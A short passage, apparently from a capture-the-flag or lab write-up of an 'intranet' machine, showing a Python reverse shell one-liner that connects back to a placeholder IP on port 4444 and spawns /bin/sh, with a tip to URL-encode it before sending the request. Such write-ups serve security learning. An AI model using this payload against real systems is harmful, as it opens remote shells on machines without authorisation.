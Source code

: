 * Let's use this python reverse shell payload:

```console
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("X.X.X.X",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

> Don't forget to add your ip address and url-encode the payload before you send the request.

![intranet18](/images/intranet18.png)

![intranet19](/images/intranet19.png)
